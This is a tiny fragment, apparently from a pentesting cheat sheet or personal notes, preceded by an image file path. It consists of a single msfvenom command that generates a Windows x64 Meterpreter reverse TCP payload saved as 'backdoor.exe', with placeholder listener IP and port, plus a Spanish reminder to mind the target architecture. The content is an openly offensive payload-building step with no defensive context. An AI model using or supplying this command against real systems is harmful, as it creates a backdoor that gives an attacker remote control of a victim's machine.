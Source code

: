 
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f exe >backdoor.exe

NOTA: tener en cuenta la arquitectura